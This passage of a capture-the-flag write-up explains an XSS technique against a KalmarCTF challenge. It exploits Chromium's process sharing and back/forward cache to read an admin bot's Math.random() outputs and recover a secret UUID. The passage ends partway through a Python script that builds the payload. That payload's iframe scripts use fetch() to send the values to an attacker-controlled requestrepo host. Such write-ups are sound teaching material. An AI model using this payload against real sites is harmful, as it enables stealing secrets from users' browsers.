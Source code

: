 ```js
// now visit user page
const page2 = await browser.newPage();
await page2.goto(url, {waitUntil: []});

await sleep(5000);
```

So, in order:
- Opens the notes website
- Submits the flag (which generates the UUID in the browser)
- Navigates the browser away to somewhere else
- Opens a *new* page (ie. a new "tab", but this is headless, same thing)
- Visits the user URL in there

Chrome has a nice "task manager", which you can access through Shift+Tab, and it'll show you what pages are open in the browser, as well as what process they live in.

If I replicate this behavior manually, I get the following outcome:
- I open https://notes-spukhafte.chal-kalmarc.tf in Chrome
  - That tab runs in the process with PID 34652.
- I type https://kalmarunionen.dk in address bar in the same tab.
  - This tab now gets moved to PID 16900!
  - ...but I see an entry titled `Back/Forward Cached Page: https://chal-kalmarc.tf/`, which *still* has PID 34652
- I open a new tab, and type in https://xss-spukhafte.chal-kalmarc.tf (no payload, but that's not relevant)
  - This tab gets the PID 54796 - an entirely different process ID.

...no dice.

However - and this is where I'm *also* a little confused - it seems like *headless* Chromium has slightly different behavior:

If I create an XSS payload on a *different* site entirely (say, a requestrepo page), and in that, include an `<iframe>` to the challenge XSS domain, *then* that frame gets pushed into the same process as the adminbot's notes page!

From there, I just need to create two new JS contexts and exfiltrate some Math.random() results. Here, I had to be a little careful - it seems like the act of creating an iframe (and a bunch of other JS operations, in fact) *also* step the isolate's RNG, but it seems like creating both iframes, and then setting their `srcdoc` property afterwards, correctly gets you two RNG-consecutive contexts.

And there we go! That gets us an XSS payload executing in the same process as the adminbot's tab with the flag (which is still in `bfcache`), which means the RNGs came from the same isolate seed, which means we can find the UUID! Go flag!

My final XSS payload script looks like this (you can find it in `send_payload.py`):

```py
import requests, urllib.parse

REQUESTREPO = "https://4rl8zudr.requestrepo.com"
HOST = "https://bot-spukhafte.chal-kalmarc.tf/"

xss_payload = """
<div id="container"></div>
<script>
const inner = `
<iframe id=a></iframe>
<iframe id=b></iframe>
<script>
a.srcdoc='<script>fetch("REQUESTREPO/?a_"+([Math.random(),Math.random(),Math.random(),Math.random()].toString()))</scr'+'ipt>';
b.srcdoc='<script>fetch("REQUESTREPO/?b_"+([Math.random(),Math.random(),Math.random(),Math.random()].toString()))</scr'+'ipt>';
</scr${""}ipt>
`;

```